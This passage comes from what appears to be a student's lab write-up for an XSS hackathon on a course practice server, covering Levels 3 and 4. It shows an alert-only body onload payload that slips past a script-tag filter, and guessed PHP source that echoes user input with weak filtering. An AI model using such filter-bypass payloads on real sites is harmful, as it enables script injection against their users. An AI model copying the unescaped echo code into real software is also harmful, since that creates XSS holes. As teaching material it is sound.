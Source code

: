Code Possibility:
```
	$input = echo $_POST['input'];
	$input = str_replace(['<script>', '</script>'], '', $input)
```

![Level 3 ](images/level3.png)

Level 4

URL : [http://waph-hackathon.eastus.cloudapp.azure.com/xss/level4/echo.php](URL : http://waph-hackathon.eastus.cloudapp.azure.com/xss/level4/echo.php)

I tried using the `onload()` event of the `<body>` tag for an XSS script, but even with script manipulation, the `<script>` element remained fully filtered. However, embedding the script within the `onload()` event still triggered an alert on page load, bypassing the filter and enabling the injection of harmful code without relying on the `<script>` tag.

```
input = <body onload="alert('Level 4 - Hacked by Vikhyath Reddy Bheemreddy')">This website is hacked</body>
```

Possible Source code:
```
	$input = $_GET['input']
	if (preg_match('/<script\b[^>]*>(.*?)<\/script>/is', $input)) 
	{
		exit('{"error": "No \'script\' is allowed!"}');
	}
	else 
		echo($input);

```
